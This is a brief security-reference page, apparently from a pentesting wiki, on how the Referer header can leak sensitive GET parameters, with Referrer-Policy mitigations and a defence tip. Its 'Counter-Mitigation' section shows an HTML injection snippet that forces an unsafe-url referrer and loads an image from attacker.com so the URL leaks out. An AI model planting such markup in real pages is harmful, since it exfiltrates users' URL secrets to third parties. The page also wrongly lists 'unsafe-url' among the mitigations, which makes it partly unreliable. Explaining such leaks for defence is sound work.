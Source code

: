 

 


# Referrer headers and policy

Referrer is the header used by browsers to indicate which was the previous page visited.

## Sensitive information leaked

If at some point inside a web page any sensitive information is located on a GET request parameters, if the page contains links to external sources or an attacker is able to make/suggest (social engineering) the user visit a URL controlled by the attacker. It could be able to exfiltrate the sensitive information inside the latest GET request.

## Mitigation

You can make the browser follow a **Referrer-policy** that could **avoid** the sensitive information to be sent to other web applications:

```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```

## Counter-Mitigation

You can override this rule using an HTML meta tag (the attacker needs to exploit and HTML injection):

```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```

## Defense

Never put any sensitive data inside GET parameters or paths in the URL.


 


